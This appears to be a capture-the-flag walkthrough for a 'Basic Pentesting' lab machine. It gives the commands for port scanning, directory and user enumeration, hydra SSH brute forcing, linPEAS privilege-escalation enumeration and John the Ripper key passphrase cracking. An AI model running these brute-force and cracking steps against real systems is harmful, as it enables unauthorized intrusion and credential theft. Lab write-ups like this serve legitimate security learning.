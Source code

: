  # Basic Pentesting challenge walkthrough 
 
![](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/images/peass.png)


Tools used for the challenge : 
- nmap
- gobuster 
- enum4linux 
- Basic Pentesting challenge walkthrough about recon and privileges escalation on Unix system.[github link](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git)
- hydra
- JohnTheRipper [github link]()


## Port scanning 

```
nmap -sC -sV -oN output.txt  IP` 
```
`-sC` is used to scan scripts of type “safe” and “intrusive” by default. 
`-sV` tests the opened ports to determine the services et their version. 
`-oN` will create a file with the command ouput. 

> Result will show some opened ports :
22 (ssh), 80 (http), 139, 445   

## Enumeration 
### 1. Gobuster

Gobuster is used for the hidden directories search. It works with wordlist composed of widely used terms to describe paths.

```
gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://IP
```
> Exposes directory discovered where some paths are accessibles :
_ /development

### 2. enum4linux

enum4linux is used to list different users available.

```
enum4linux -a IP
```

> Returns :
usernames ( $USER ) 

## Password Discovery

hydra is an kali integrated tool for bruteforce.

```
hydra -l $USER -P /usr/share/wordlists/rockyou.txt.gz ssh://IP
```

> Returns : 
password in plain text

## Privileges Escalation

Since `/etc/shadow` gives us a **permission denied** message, we have to find sudo user password.

Let's try to find some interesting stuff with `PEASS - Privilege Escalation Awesome Scripts SUITE` [github link](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

Once it's downloaded, let's upload this by `ssh` with `scp` :

```
scp /path/to/linpeas.sh $USER@IP:/dev/shm
```
`/dev/shm`: temporary directory writable and readable from a guest session

> Discovery : 
Path to ssh key

We can use it to access sudo user session **BUT** we are in front of a passphrase needed. 

### 1. Passphrase cracking

We'll use JohnTheRipper package. [github link](https://github.com/magnumripper/JohnTheRipper)

Usage : 
```
> python3 ssh2john rsa_public_key > res.txt
> ./john res.txt --wordlist=/usr/share/wordlists/rockyou.txt.gz
```

## Final Flag 

After logging on the sudo user with the ssh key + the passphrase we can discover his password with : 
```
cat $HOME/pass.bak 
```

**Done!**













